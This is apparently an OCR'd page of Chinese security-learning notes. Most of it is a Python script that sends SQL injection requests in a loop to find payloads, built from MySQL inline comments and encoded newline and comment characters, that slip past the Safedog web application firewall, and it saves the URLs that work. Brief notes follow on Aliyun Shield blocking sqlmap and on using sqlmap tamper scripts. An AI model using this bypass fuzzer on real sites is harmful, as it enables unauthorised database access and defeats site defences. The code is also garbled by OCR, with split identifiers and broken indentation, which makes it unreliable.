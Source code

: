 ```python
num='1,2,3'
a={'%0a','%23'}
aa={'x'}
aaa={'%0a','%23'}
b='/*!'
c='*/'
def bypass():
	for xiaodi in a:
		for xiaodis in aa:
			for xiaodiss in aaa:
				for two in range(44500,44600):
					urls=url+xiaodi+xiaodis+xiaodiss+b+str(two)+union+c+xiaodi+xiaodis+xiaodiss+select+xiaodi+xiaodis+xiao
diss+num
					#urlss=url+xiaodi+xiaodis+xiaodiss+union+xiaodi+xiaodis+xiaodiss+b+str(two)+select+c+xiaodi+xiaodis+xia
odiss+num
					try:
						result=requests.get(urls).text
						len_r=len(result)
						if (result.find('safedog')==-1):
							#print('bypass url addreess：'+urls+'|'+str(len_r))
							 print('bypass url addreess：'+urls+'|'+str(len_r))
						if len_r==715:
                             fp = open('url.txt','a+')
                             fp.write(urls+'\n')
                             fp.close()
					except Exception as err:
						print('connecting error')
						time.sleep(0.1)
if__name__=='__main__':
	print('fuzz strat!')
	bypass()
```

## 阿里云盾防SQL注入简要分析

使用sqlmap

![img](https://gitee.com/YatJay/image/raw/master/img/202202171755949.png)

使用sqlmap跑过之后阿里云盾会对二次请求进行拦截

开启安全狗，使用sqlmap发现未报出注入点

![img](https://gitee.com/YatJay/image/raw/master/img/202202171755282.png)

这时就需要使用到sqlmap的脚本文件（自带大概率无法达到目的），脚本文件存在temper文件夹中（[一般脚本使用教程](https://blog.csdn.net/qq_34444097/article/details/82717357)）

![img](https://cdn.nlark.com/yuque/0/2021/png/22078880/1628917847618-bbcc2194-6c4c-47f0-a164-3060db0fbf68.png)

